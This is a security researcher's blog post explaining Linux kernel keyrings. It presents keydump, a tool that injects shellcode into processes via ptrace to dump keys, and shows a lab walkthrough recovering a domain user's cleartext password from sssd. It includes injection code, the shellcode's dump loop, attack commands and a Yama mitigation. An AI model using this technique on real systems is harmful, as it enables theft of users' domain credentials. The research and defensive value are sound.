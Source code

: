 #+title: Keyrings dump with keydump: Extracting SSSD cleartext credentials
#+author: Eloy Pérez González
#+date: 2024-09-08
#+tags[]: Linux Keyrings sssd
#+toc: True

Hi there!!

Time ago I was tinkered with Linux [[https://www.man7.org/linux/man-pages/man7/keyrings.7.html][keyrings]] to extract Kerberos tickets from
keys with [[https://github.com/zer1t0/tickey][tickey]], and recently I was involved in a new interesting project in
which I needed to learn again about this topic, so I will try to describe the
important points here in case my future self or anyone else want to learn them.

First we need to know is that Linux keyrings is a key management facility. The
keys are entities that can be used by programs to store secrets, like passwords
or certificates, in a secure way, preventing other programs or users from
accessing them.

This been said, let's go to the topic!

* The beginning
:PROPERTIES:
:custom_id: the-beginning
:END:

I was experimenting a little with sssd after reading about [[https://github.com/CiscoCXSecurity/linikatz][linikatz]]
and then I found the following NOTE in the ~krb5_store_password_if_offline~
option of the [[https://linux.die.net/man/5/sssd-krb5][sssd-krb5]] documentation:

#+begin_src 
krb5_store_password_if_offline (boolean)
    Store the password of the user if the provider is offline and use it to request a TGT when
    the provider comes online again.

    NOTE: this feature is only available on Linux. Passwords stored in this way are kept in
    plaintext in the kernel keyring and are potentially accessible by the root user (with
    difficulty).

    Default: false
#+end_src

There are a few points here I would to discuss:

First, and maybe the more important part is that *passwords are stored in
plaintext* in a kernel keyring. The documentation also points that this could be
accessible by root _with difficulty_. But, what is difficulty? In my mind it
just means that a tool doesn't exists to do the job yet, so that is what I did.

Another important fact is that passwords are only stored **when the provider is
offline**. In a common Active Directory (AD) scenario, this means that passwords
are only stored when the Domain Controller (DC) cannot be reached, therefore
making the attack less exploitable. However in case we are root of a machine, we
could force the machine to lost connection with the Domain Controller by
applying a firewall rule, for example, so we can collect the passwords of new
users that logs in the machine. However, for this purposes, maybe creating a fake PAM
module could be easier and more relayable approach. All this been said, I did it
anyway for the fun of a challenge.

And last but not least, the default value of ~krb5_store_password_if_offline~ is
~false~. Which means that in absense of this option passwords are not
stored. However, by default [[https://linux.die.net/man/8/sssd][sssd]] sets this option to ~true~, so no problem at
all.

Therefore, in order to extract the credentials, I required a tool able to
extract keyrings from other processes keyrings. As I said before, I did this in
the past by creating [[https://github.com/zer1t0/tickey][tickey]], but that tool was too focused on the kerberos
tickets. So I thought that I had to create a more generic tool to dump all the
keys of any process (or thread) keyrings, no matter the purpose.

That is how [[https://github.com/zer1t0/keydump][keydump]][fn:keydump] was born. So in this post I will try to explain the concepts
behind keydump so we can understand its functionality.


However, for those who are impatient, here is a preview of the keydump output
dumping a password stored by sssd process: 

#+caption: Dumping sssd passwords with keydump
#+begin_src 
$ ps -o pid --no-headers -C sssd | sed 's/ //g' | sudo ./keydump -
[PID 452] Shellcode injected
[PID 452] /tmp/k_452 exists, so keys must be dumped!!
$ sudo cat /tmp/k_452/210e3b29_user_Administrator_dev_lab__10
S3cur3p4ss
#+end_src

* The problem
:PROPERTIES:
:custom_id: the-problem
:END:

So we want to dump the keys of other processes? The problem is that keys are
designed to avoid that.

Keys can be created with permissions that will allow the only process (or even
thread) which creates the key to read it. In the case of sssd, we can see how
the key is created in the following line of the
[[https://github.com/SSSD/sssd/blob/077d2993a1b306e7cfe61618cbd5d03c602572f8/src/providers/krb5/krb5_delayed_online_authentication.c#L287][add_user_to_delayed_online_authentication]] function:

#+caption: sssd code to store a password into a key
#+begin_src c
    new_pd->key_serial = add_key("user", new_pd->user, password, len,
                                 KEY_SPEC_SESSION_KEYRING);
#+end_src

To clarify, sssd is using a key that can only be accessed by processes its
current session (not a login session, but a [[https://www.informit.com/articles/article.aspx?p=397655&seqNum=6][process session]] created with
[[https://www.man7.org/linux/man-pages/man2/setsid.2.html][setsid]]). Hence, we could the follow a similar approach to the one I used with
[[https://github.com/zer1t0/tickey][tickey]], by injecting a new process into that session by attaching us to ssdd
with [[https://www.man7.org/linux/man-pages/man2/ptrace.2.html][ptrace]] and forcing it to [[https://www.man7.org/linux/man-pages/man2/fork.2.html][fork]] into a new process that will dump the keys
for us. However, in this occasion my approach will be to try to dump the keys
from the sssd process itself for several reasons:

- Maybe in the future this is key is modified to only allow access from the same
  process.

- Extracting from the process itself will allow to reuse the tool to other
  programs that only allow the same process to read the key.

- And the real reason, I wanted to do it that way, and know if I could do it by
  injecting a shellcode based in my [[https://github.com/zer1t0/shellnova][shellnova]] project.

So let's see how this can be done.

#+begin_quote
I would like you to notice that in Linux, threads are implemented as lightweight
processes, and therefore each thread can have its own set of credentials. That
is the reason threads can have keys that are only accessed by themselves.

This also means that injecting code in a thread is the same as injecting it
into a process, we just need to specify the TID (Thread ID) instead of PID in
the ~ptrace~ syscall. In fact, when we specify the PID, we are just specifying
the TID of the process main thread.
#+end_quote

* Keyrings
:PROPERTIES:
:custom_id: keyrings
:END:

First we need to know how to dump keys from a process. As I have mentioned,
keys are stored in kernel memory. In this section I will try to describe all the
relevant points for our purpose, but you can find more information on the
[[https://www.man7.org/linux/man-pages/man7/keyrings.7.html][keyrings manual page]].

#+begin_quote
Note that Linux keyrings are not the only keyring solution, but there are many
others like [[https://wiki.gnome.org/Projects/GnomeKeyring/][GNOME Keyring]], that aren't managed by the Linux kernel.
#+end_quote

In order to read the contents of a key, we need to know its key ID, since it
is required to perform the ~KEYCTL_READ~ operation of the [[https://www.man7.org/linux/man-pages/man2/keyctl.2.html][keyctl syscall]]. In our
case, we want to read all the keys a process can access, so how do we get their
IDs?

** The /proc/keys file
:PROPERTIES:
:custom_id: the-proc-keys-file
:END:

Well, we just need to read the =/proc/keys= file, which is a pseudo-file in the
[[https://www.man7.org/linux/man-pages/man5/proc.5.html][proc filesystem]] that returns the available keys for the process that reads
it. Here is an example:

#+caption: Available keys for the cat process
#+begin_src
$ cat /proc/keys
00c58dad I--Q---    58 perm 3f030000  1000  1000 keyring   _ses: 1
0ae2c7d1 I--Q---     1 perm 3f010000  1000  1000 user      user_secret: 6
102e811f I--Q---   104 perm 3f030000  1000  1000 keyring   _ses: 2
244b527f I--Q---     4 perm 1f3f0000  1000 65534 keyring   _uid.1000: empty
2729088e I--Q---     1 perm 1f3f0000  1000 65534 keyring   _uid_ses.1000: 1
#+end_src

As we can appreciate, there is a line per key, a very common format in the Unix
world. In each line we have several fields that describe a key. Let's review
them to properly understand them.

In the first field we have the *key ID*, or serial number, that uniquely
identifies the key. This is the main piece of information we want to retrieve to
read the key contents, but let's also understand the other fields.

The second field indicates *state flags* related to the keys. Here we need to
check that the key we want to read have the ~I~ flag, which means the key is
instanciate, that is, that the key has been created. This may sound weird, since
all the keys should be created to exists right? However keys can also be
requested and created by a third party, as described in [[https://www.man7.org/linux/man-pages/man2/request_key.2.html][request_key(2)]], and
being in under construction state, indicated by the ~U~ flag.

The third field, known as *usage*, indicates how many links point to the key. A
key can be pointed by a keyring, that is an special type of key that keeps links
that point to other keys, like a folder. If a key, even a keyring, lost all its
references, it is deleted. Due to this some keyrings, the anchor keyrings,
require a reference from kernel structures.

The fourth field is the *key timeout*, and ~perm~ (permanent) keyword is
used to indicate that the key don't expire. An expired key cannot be used and it
will be deleted.

The fifth field are the *permissions*, with four permission sets, a byte
per set (two hexadecimal digits), that refers to the possessor process or
thread, user, group and other permissions. The last 3 are similar to file
permissions sets, but the possessor set is more complicated and requires further
explanation, which I will provide below. Moreover, the permissions are different
than the ones of a file, and will also be explained below.

Then we have the *user and group* ids of the key, that identifies the user and
group owner of a key (that is not the same as the possessor). A value of 65534
(-1 in signed integer) in the group field means the key has no group.

The eighth field is the *key type*. There are several types of keys with
different characteristics, some of them even don't support the read operation so
its content cannot be retrieved (from userspace at least). Common types of
keys are the following:

+ *user* : A generic key that allows to store secrets completely in kernel
  memory (payload up to 32767 bytes) and retrieve them from userspace.

+ *keyring* : Contains links to other keys (even other keyrings). This is a very
  special key type since works like a "directory" that allows keys to become
  searchable by description.

+ *logon* : Like user type, but it doesn't allow read the secret payload from
  user space.

+ *big_key* : Like user type, but it allows bigger secrets to be stored (up to
  1 MiB). Therefore big keys may be stored encrypted in a tmpfs filesystem.

+ [[https://docs.kernel.org/crypto/asymmetric-keys.html][*asymmetric*]] : Allows to store public and private key pairs, or just public.
  It doesn't allow reading the payload from userspace, but it provides
  operations for encrypt, decrypt, sign and verify signature.

There are many more key types (like [[https://github.com/torvalds/linux/blob/bfa8f18691ed2e978e4dd51190569c434f93e268/certs/blacklist.c#L138][blacklist]], [[https://github.com/torvalds/linux/blob/bfa8f18691ed2e978e4dd51190569c434f93e268/crypto/asymmetric_keys/pkcs7_key_type.c#L70][pkcs7]], [[https://github.com/torvalds/linux/blob/bfa8f18691ed2e978e4dd51190569c434f93e268/fs/crypto/keyring.c#L173][.fscrypt]], etc) that I do
not list here cause I don't know its purpose, but in case you are curious, you
can discover them by searching for the use of the "register_key_type" function
in [[https://github.com/torvalds/linux][Linux kernel source code]].

The final field is composed by two fields, the *name or description* of the key,
which can be used to search for the key in the keyrings, and some *metadata*
whose information varies between different types of keys, for example, in the
case of keyrings the metadata shows the number of links contained in them and
in the case of user keys, it indicates their size in bytes.

With the information we extract from the ~/proc/keys~ file we are good to go and
try to dump all the keys. My approach in this case was to just read
~/proc/keys~ and try to dump all the keys listed, which is quite easier than
trying to read the permissions and guess which keys can be dumped.

** The keys permissions
:PROPERTIES:
:custom_id: the-keys-permissions
:END:

Notwithstanding, while I think a brute-force approach is a good decision for
reading keys of a process, if we want to read an specific key, trying to inject
in all the processes (and threads) of the system until we read it may not be a
good option, so being able to understand the permissions of a key may
facilitate us to know what process infect.

As we have say previously, the permissions are formed by four sets, and for each
set we have the following permissions:

+ *view* (0x01): Allows to read the key attributes. The keys for which the
  process has view permissions are the ones listed in ~/proc/keys~.

+ *read* (0x02): Allows to read the payload. However, some key types such as
  "logon" and "asymmetric" don't support the read operation.

+ *write* (0x04): Allows to update the payload and revoke the key.

+ *search* (0x08): Allows the key to be found by a search, that is looking
 for a key through the keyrings by its type and description/name.

+ *link* (0x10): Allows to create new links that point to the key.

+ *setattr* (0x20): Allows to revoke the key, update the permissions mask
  and the uid (user id) and gid (group id), setting a key timeout and apply a
  restrictions to keyrings (implies that keys added to them must be signed).

Moreover, the four permissions sets are possessor, user, group and others. As we
imagine, the user and group apply to the key user and group owners, and the
other to any other user. 

Let's see an example of a ~/proc/keys~ line:
#+caption: 
#+begin_src
0ae2c7d1 I--Q---     1 perm 3f010000  1000  1000 user      user_secret: 6
#+end_src

We can see that permissions for the ~user_secret~ key are ~3f010000~, which
means that all the permissions are granted to the possessor, just view
permissions to the user and no permissions for group or others.

Besides, we must keep in mind that, the same as files, the *user, group and
others permissions are exclusive*, this means that if the user of the process
trying to access the key match with the user key, the user permissions will be
applied, and no group or other permissions, even if these (for some curious
reason) are more permissive than those of the user. Same caso for group
permissions. And in case there is no match for process user or groups, then the
other permissions will apply.

On the other hand we have the *possessor permissions*, which are quite important
cause generally the possessors are granted the highest privileges in a key. But
possessor permissions are different in several aspects:

- *Are inclusive*: Possessor permissions are applied together with the one of
  other three permissions sets that applies. This means that if, for example,
  a process can be applied both user and possessor permissions and the user
  permissions only allow to read a key, and the possessor permissions only allow
  to write the key, the process can both read and write.

- *Are dynamic*: Possessor permissions are applied only if a key is possessed by
  the current process (or thread), and key possession is calculated each time
  the key is accessed.

So, how can we know if a key is possessed by a process? We need to follow the links
from the anchor keyrings.

Wonderful, that reveals another question, *what are the anchor keyrings?* If you
recall, I have said that every key, even keyrings, needs to be referenced at
least once in order to not be deleted by the kernel. In fact, each time a key is
created (with [[https://www.man7.org/linux/man-pages/man2/add_key.2.html][add_key]] syscall) a keyring must be specified to contain a link to
that key (same situation in files, as each one must be created under a
folder). Now imagine we want to create our first keyring which will hold links
to all our keys, what keyring will point to our first keyring? The answer is an
[[https://man.archlinux.org/man/keyrings.7.en#Anchoring_keys][anchor keyring]]. *Anchor keyrings are special keyrings linked by kernel
structs*. And there are several, that in conjunction with the key possession,
allows keys to only be accessed from specific scopes.

These are the available anchor keyrings (that are generally created by the
kernel when they are accessed):

- *Process keyrings*: These keyrings are linked to the process
  credentials. There are three of them with different scopes:
  + [[https://www.man7.org/linux/man-pages/man7/thread-keyring.7.html][thread-keyring]]: Only can be accessed by the current thread. It has the name
    /_tid/.
  + [[https://www.man7.org/linux/man-pages/man7/process-keyring.7.html][process-keyring]]: Can be accessed by all the threads of the current
    process. It has the name /_pid/.
  + [[https://www.man7.org/linux/man-pages/man7/session-keyring.7.html][session-keyring]]: Can be accessed by all the processes in the current login
    session (since it is created by [[https://linux.die.net/man/8/pam][PAM]]). It has the name /_ses/.

- *User keyrings*: This keyrings are tied to kernel user structures, so they
  only can be used while the user has an active session.
  + [[https://man7.org/linux/man-pages/man7/user-keyring.7.html][user-keyring]]: Can be accessed by all the processes of the user. It has the
    name /_uid.<uid>/ where <uid> is replaced by the user uid.
  + [[https://man7.org/linux/man-pages/man7/user-session-keyring.7.html][user-session-keyring]]: Can be accessed by all the processes of the user and
    it is used in case the session keyring is not created. It has the name
    /_uid_ses.<uid>/ where <uid> is replaced by the user uid.

- [[https://man7.org/linux/man-pages/man7/persistent-keyring.7.html][Persistent keyring]]: Can be accessed by all processes of the user, but it is
  not destroyec when the user logs out, so it is intended to be accessed by
  background services that acts on behalf on an user. It has an expiration
  timeout, so if its not used in a while it is deleted. It has the name
  /_persistent.<uid>/ where <uid> is replaced by the user uid.

So these are the anchor keyrings we have in a system. They are similar to a root
directory in a filesystem, specially the process keyrings, that are the ones
used in possession.

So *what it is possession*? and how is calculated? The answer is that a key is
possessed when it is granted /search/ permission and can be accessed by
traversing down the keyrings links starting by the thread-keyring,
process-keyring, or session-keyring. You can check the algorithm in
[[https://man.archlinux.org/man/keyrings.7.en#Possession][Possession section of keyrings(7)]].

* About keydump
:PROPERTIES:
:custom_id: about-keydump
:END:

So, now we know what keys are and we are aware that some keys are only
accessible by a process or thread, we need a way to extract them. I can think of
two possibilities:

- Executing some code in the context of the process (or thread) with access to a
  target key.
- Reading the keys with a Linux module from kernel space.

I choose the first option since it was easier to me cause I'm not familiar with
Linux modules programming (but it is a nice project for the future).

Therefore, to execute some code in other process we can act as a debugger and
inject a shellcode into that process. I'm assuming we have root privileges, so
we can trace any process with the [[https://www.man7.org/linux/man-pages/man2/ptrace.2.html][ptrace]] syscall (unles the system is hardened).

** The injection
:PROPERTIES:
:custom_id: the-injection
:END:

How we can perform a [[https://blog.f0b.org/2022/05/process-injection-on-linux-injecting-into-processes/][code injection with ptrace]][fn:linux-process-injection]?
Basically, these are the steps I follow in keydump for injection a shellcode
into a target process:

1. Attach to the target process
2. Look for a syscall instruction
3. Execute mmap to allocate memory for the shellcode
4. Copy the shellcode into remote process memory
5. Call the shellcode

These steps can be found in the [[https://github.com/zer1t0/keydump/blob/1c0a26a959b4409865a511a5549e1eaad3d3d6d8/src/main.rs#L92][dump_remote_process_keys function of
keydump]]. And for each one here is the code and the explanation:

*** 1. Attach to the target process
:PROPERTIES:
:custom_id: 1-attach-to-the-target-process
:END:

#+begin_src rust
tracer::basics::attach_process(pid)?;
#+end_src

This steps requires to perform a ~PTRACE_ATTACH~ operation in the ptrace syscall
and waiting for the process to effectively stops.

*** 2. Look for a syscall instruction
:PROPERTIES:
:custom_id: 2-look-for-a-syscall-instruction
:END:

#+begin_src rust
let syscall_addr = tracer::x64::syscall::search_syscall_inst_nearby(pid)?;
#+end_src

In next steps we require to call an mmap syscall in order to allocate memory for
the shellcode. In order to do that we need to redirect the execution of the
program to a syscall instruction by setting the syscall instruction address in
the the program counter, which is the ~rip~ register in x64. 

Therefore we need to find a syscall instruction inside the process memory. Since
usually after tracing a process this is stopped when calling a syscall I'm going
to check if that is the case and store the syscall instruction address. In other
case my program failed, but a memory scanning could be implemented for searching
for a syscall instruction, or we could resume the process execution until a
syscall is executed (can be done with ~PTRACE_SYSCALL~).

*** 3. Execute mmap to allocate memory for the shellcode
:PROPERTIES:
:custom_id: 3-execute-mmap-to-allocate-memory-for-the-shellcode
:END:

#+begin_src rust
let mmap_addr = tracer::x64::syscall::exec_mmap_x64(
        pid,
        syscall_addr,
        0,
        shc.len() as u64,
        libc::PROT_READ | libc::PROT_WRITE | libc::PROT_EXEC,
        libc::MAP_PRIVATE | libc::MAP_ANONYMOUS,
        -1,
        0,
    )?;
#+end_src

In order to perform an [[https://www.man7.org/linux/man-pages/man2/mmap.2.html][mmap syscall]], we need to set the ~rip~ registry pointing to
the syscall instruction we have found and passing the arguments to
mmap by setting them in the proper registers which are ~rdi~, ~rsi~, ~rdx~,
~r10~, ~r8~, ~r9~[fn:linux-syscall-calling-convention]. Notice that we need to
reserve a memory section which allows us to write and execute (and read) for
writing and executing the shellcode (besides, in this case our shellcode also
require these permission for proper execution). 

However, before setting the registers, we need to save the register original
values to restore then afterwards. Once this is done, we execute the syscall
instruction by just performing a single-step operation which only executes one
instruction (the syscall instruction). Then we retrieve the value returned by
the mmap syscall, stored in ~rax~ registry, and restore the registers to their
original values to avoid disrupting the target process.

*** 4. Copy the shellcode into remote process memory
:PROPERTIES:
:custom_id: 4-copy-the-shellcode-into-remote-process-memory
:END:

#+begin_src rust
tracer::x64::basics::write_memory_x64(pid, map_addr, shc)?;
#+end_src

As result of the mmap syscall, we have reserved a memory region to
which write our shellcode. We can do this by writing the shellcode bytes into
the =/proc/<pid>/mem= pseudo-file, where pid is the pid of the target process.

*** 5. Call the shellcode
:PROPERTIES:
:custom_id: 5-call-the-shellcode
:END:

#+begin_src rust
let rip = tracer::x64::register::rip(pid)?;

tracer::x64::basics::stack_push_x64(pid, rip - rip_offset)?;

tracer::x64::register::set_rip(pid, map_addr + rip_offset)?;
#+end_src

In order to call the shellcode we simply need to set into the ~rip~ register the
address to which we just have copied the shellcode. Besides, since we want to
restore the real execution flow of the process once our shellcode finish its
job, we insert into the stack as return value the address where the process was
stopped.

You may notice the =rip_offset= variable, what is this? When the target process
is interrupted by the ptrace attach, it can be in the middle of a syscall. In
this case, the ~rip~ register points to the syscall next instruction, but the
process needs to be resumed in the syscall instruction to repeat it (since it
wasn't completed) and avoid an unexpected behavior. This is precisely what
happens when the debugger detaches from the process (PTRACE_DETACH operation),
that the ~rip~ is subtracted 2 (the syscall instruction size in x64) so no
problems arise. And to handle this (not so) special situation I have introduced
the =rip_offset= variable whose value is 2 when the target process is stopped
while calling a syscall.

Thus, I indicate that the address of the shellcode is the allocated address
(with mmap) plus the offset that will be subtracted when we will detach from the
target process. Furthermore the return address could be the instruction pointed
by ~rip~ when the process was stopped, or in the case of the situation
previously described, the previous syscall instruction, so 2 must be subtracted
from ~rip~.

To sum up, we are simulating a =call= instruction to invoke our shellcode (it is
important to notice that it is responsibility of the shellcode, once done, to
restore the values of the registers so the target process don't crash). Then,
when the returned address is pushed to the stack and ~rip~ points to our
shellcode address, we just detach from the target process. When this happens,
the target process is resumed, executing our shellcode and finally returning to
its normal execution flow.

*** Extra step: Checking if the dump was successful
:PROPERTIES:
:custom_id: extra-step-checking-if-the-dump-was-successful
:END:

Once the shellcode is injected into the target process, it will create a folder
under the =/tmp/= directory which will contain files with the value of the
target process readable keys. Therefore, after injecting the shellcode, we wait
for a little period of time and check if such folder was created.

** The shellcode
:PROPERTIES:
:custom_id: the-shellcode
:END:

The another key part of keydump is the shellcode to inject into the
target process. To create the shellcode I have used [[https://github.com/zer1t0/shellnova][shellnova]][fn:shellnova], a
project of mine which provides a template for shellcode creation that includes
the following:

- Creating a shellcode from C code
- Resolving libc functions on runtime, so we can use them from the shellcode
- Erasing the implant once the work is done, so no traces are left

The shellcode, as I mentioned in the keyrings section, will list the keys by
reading the =/proc/keys= file and will try to read the content of each key and
saved it into a file under =/tmp/k_<tid>/= where =<tid>= is the tid of the
target thread. Here is the code (from [[https://github.com/zer1t0/keydump/blob/1c0a26a959b4409865a511a5549e1eaad3d3d6d8/implant/src/main.c#L145][dump_keys]] function) that performs such
actions:

#+caption: 
#+begin_src c
    sprintf_d(keys_dir, "/tmp/k_%d", tid);
    err = mkdir_z(keys_dir, 0755);
    if (err != 0 && err != -EEXIST) {
        LOG_PRINTF("Error mkdir: %d\n", err);
        goto close;
    }

    dp = opendir_d(keys_dir);
    if(!dp) {
        PRINTF("Error opendir");
        goto close;
    }
    dir_fd = dirfd_d(dp);

    fp = fopen_d("/proc/keys", "r");
    if(!fp) {
        PRINTF("Error opening /proc/keys");
        goto close;
    }

    while ((nread = getline_d(&line, &len, fp)) != -1) {
        sscanf_d(line, "%lx %s %d %s %x %d %d %s", &k_id, k_flags, &k_state, k_expiration, &k_perms, &k_uid, &k_gid, k_type);
        if(read_key(k_id, &key_data, &key_data_size) == 0){
            desc = extract_description(line);
            if(!desc) {
                desc = "";
            }
            // printf("%s\n", desc);
            normalize_description(desc);
            // printf("Key len of %lu\n", key_data_size);
            sprintf_d(k_filename, "%lx_%s_%s", k_id, k_type, desc);
            write_to_file(dir_fd, k_filename, key_data, key_data_size);
            free_d(key_data);
        }
    }
#+end_src

* Attacking SSSD
:PROPERTIES:
:custom_id: attacking-sssd
:END:

Now that we understand the underlying mechanism, it is time for performing the
actual attack, for which is required to have a domain joined GNU/Linux machine
through sssd. I'm not going to describe the process here since many tutorials
exists on the internet:

- [[https://hackliza.gal/en/posts/linux-en-ad/][How to join Debian to Active Directory]]
- [[https://www.pierreblazquez.com/2024/02/04/how-to-join-debian-12-to-an-active-directory-domain/][How-To: join Debian 12 to an Active Directory domain]]
- [[https://www.redhat.com/sysadmin/linux-active-directory][How to join a Linux system to an Active Directory domain]]

After setting up the lab you must be able to log with ssh into the target
machine with domain credentials. Like this:

#+begin_src 
$ ssh Administrator@dev.lab@lab-debian
Administrator@dev.lab@192.168.122.241's password: 
Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 12 22:39:50 2024 from 192.168.122.254
administrator@dev.lab@debian:~$ 
#+end_src

I have used the ~Administrator~ account of my domain ~dev.lab~ but you can use
any account of the domain.

Once you have verified that it is possible to access by ssh to the machine with
a domain account, you need to verify that the ~krb5_store_password_if_offline~
option is set to ~true~ in your sssd configuration (in domain settings), which is the
default value:

#+begin_src
$ sudo cat /etc/sssd/sssd.conf

[sssd]
domains = dev.lab
config_file_version = 2
services = nss, pam

[domain/dev.lab]
default_shell = /bin/bash
krb5_store_password_if_offline = True
cache_credentials = True
krb5_realm = DEV.LAB
realmd_tags = manages-system joined-with-adcli 
id_provider = ad
fallback_homedir = /home/%u@%d
ad_domain = dev.lab
use_fully_qualified_names = True
ldap_id_mapping = True
access_provider = ad
#+end_src

In case ~krb5_store_password_if_offline~ is not present or setting to ~false~,
modify the file and set it to ~true~. Then restart the sssd daemon.

Once this is done, disconnect the GNU/Linux machine from the Domain
Controller. For this you can just turn off the Domain Controller.

Now you will need to access to the machine with two accounts simultaneously: 

- A domain account that will be the victim 
- A privileged account like root, one with sudo or any user with the
  ~CAP_SYS_PTRACE~ capability, that will be the attacker. This account can be
  local or from the domain.

#+begin_quote
Be aware that the domains account you will use are required to login at least
once before the Domain Controller is disconnected in order their credentials
(hashes) to be cached into the GNU/Linux machine.
#+end_quote


You may access first with the domain/victim account using ssh:
#+begin_src 
$ ssh Administrator@dev.lab@lab-debian
Administrator@dev.lab@192.168.122.241's password: 
Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 12 22:39:50 2024 from 192.168.122.254
administrator@dev.lab@debian:~$ 
#+end_src

You won't need to use this account anymore, just keep its terminal connected in
the background.

Now, copy the keydump binary to the target machine (by using scp for
example). You will be required to compile it in a machine with similar
characteristics (or in the target machine directly) to avoid glibc version
problems.

Then, in another terminal, access by using the privileged account, the attacker:
#+begin_src 
$ ssh lab-debian 
user@192.168.122.241's password: 
Linux debian 5.10.0-25-amd64 #1 SMP Debian 5.10.191-1 (2023-08-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Mon Jul 29 16:46:29 2024 from 192.168.122.254
user@debian:~$ 
#+end_src

Then, as attackers, we can confirm there is another user logged with the ~who~
command:
#+begin_src 
user@debian:~$ who
user     pts/0        Jul 28 17:04 (192.168.122.254)
administrator@dev.lab pts/1        Jul 28 16:46 (192.168.122.254)
#+end_src

And verify that a key that contains the victim password was created:
#+begin_src 
user@debian:~$ sudo cat /proc/keys | grep dev.lab
10bfb037 I--Q---     1 perm 3f010000     0     0 user      Administrator@dev.lab: 10
#+end_src

As we can see, a key was created with the name of the victim account to store
its password, but we don't have permissions for reading, only the possessor
processes can. We can verify this with the ~keyctl~ command (which must be installed):

#+begin_src 
user@debian:~$ sudo keyctl read 0x10bfb037
keyctl_read_alloc: Permission denied
#+end_src

Fortunately, we can use keydump to dump keys of the sssd process by passing it
its pid with the following command:
#+begin_src 
user@debian:~$ ps -o pid --no-headers -C sssd | sed 's/ //g' | sudo ./keydump -
[PID 452] Shellcode injected
[PID 452] /tmp/k_452 exists, so keys must be dumped!!
user@debian:~$ sudo cat /tmp/k_452/10bfb037_user_Administrator_dev_lab__10
S3cur3p4ss
#+end_src

And success!! We were able to dump the sssd keys and retrieve the victim
password.

* Prevention
:PROPERTIES:
:custom_id: prevention
:END:

Preventing this attack requires no allowing processes to attach to others, which
can be done with the following command:

#+begin_src 
echo 3 | sudo tee /proc/sys/kernel/yama/ptrace_scope
#+end_src

This configures the [[https://www.kernel.org/doc/html/latest/admin-guide/LSM/Yama.html][Yama]] security module to block ptrace (which also prevents
reading files like =/proc/<pid>/mem= and =/proc/<pid>/maps=). I think it should
be also possible preventing this attack by using SELinux or Apparmor, but I
don't know how to do it.

* Conclusion
:PROPERTIES:
:custom_id: conclusion
:END:

In this article I have shown how SSSD stores passwords when the Domain
Controller is not available, how keyrings works and how we can dump keys of
other processes with keydump. I hope you enjoy reading it and find it useful.

Happy hacking and Free Palestine!!
  
* References
:PROPERTIES:
:custom_id: references
:END:

[fn:keydump] Eloy Pérez González. "keydump". Github. 14 July, 2024,
https://github.com/zer1t0/keydump

[fn:linux-process-injection] Fob. "Process Injection on Linux - Injecting into Processes". fob's
notebook, 31 May, 2022, https://blog.f0b.org/2022/05/process-injection-on-linux-injecting-into-processes/

[fn:linux-syscall-calling-convention] claws. "What are the calling conventions
for UNIX & Linux system calls (and user-space functions) on i386 and
x86-64". Stack Overflow. 18 January, 2024, https://stackoverflow.com/a/2538212 

[fn:shellnova] Eloy Pérez González. "shellnova". Github. 14 July, 2024,
https://github.com/zer1t0/shellnova 

